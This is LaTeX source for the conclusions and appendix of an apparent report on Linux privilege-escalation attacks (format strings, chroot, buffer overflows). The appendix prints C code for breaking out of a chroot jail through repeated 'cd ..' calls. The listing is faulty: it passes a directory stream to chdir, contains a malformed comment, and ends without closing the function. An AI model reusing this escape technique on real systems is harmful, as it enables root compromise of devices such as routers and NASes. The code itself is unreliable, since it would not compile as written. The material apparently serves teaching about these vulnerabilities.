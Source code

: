\documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\section{Conclusions}
Presented here attacks show how user can make harm to the system or gain \texttt{root} privileges by exploiting vulnerabilities in: \texttt{C} string formatting, \texttt{chroot} command/system call, and \texttt{C} buffer overflow. The vulnerabilities presented here have already been addressed in newer versions of Linux kernel or \texttt{C} compiler, nevertheless, many embedded systems like: Internet cameras, NASes, and routers still use vulnerable software facilitating aforementioned attacks.

\vfill



\newpage
\begin{appendices}
\section{\texttt{cd ..} out of \texttt{chroot} jail\label{app:chroot:cd}}
\begin{lstlisting}
#include <stdio.h>
#include <sys/types.h>
#include <dirent.h>
#include <errno.h>
#include <stdlib.h>

void print_current();

int main(int argc, char** argv) {
  int i;
  DIR *dir;
  print_current();
  puts("Chroot to /tmp\n");

  // Create jail
  if(chroot("/tmp") != 0) {
    printf("chroot to /tmp failure \n");
    exit(EXIT_FAILURE);
  }

  // Create dir
  dir = opendir("bin");


  if(chroot("/bin") != 0) {
    printf("chroot to /bin failure \n");
    exit(EXIT_FAILURE);
  }

  print_current();

  puts("Chdir to the hander\n");
  if(chdir(dir) != 0)
    printf("change directory to handler failure \n");

  print_current();

  for(i = 0; i < 1024; i++) {
    if(chdir("..") != 0) {
      printf("%d Unable to cd ..\n", i);
    }
  }

  print_current();

  / Chroot to  .
  if(chroot(".") != 0) {
    printf("chroot failure \n");
    exit(EXIT_FAILURE);
  }


\end{lstlisting}
\end{appendices}
\end{document}
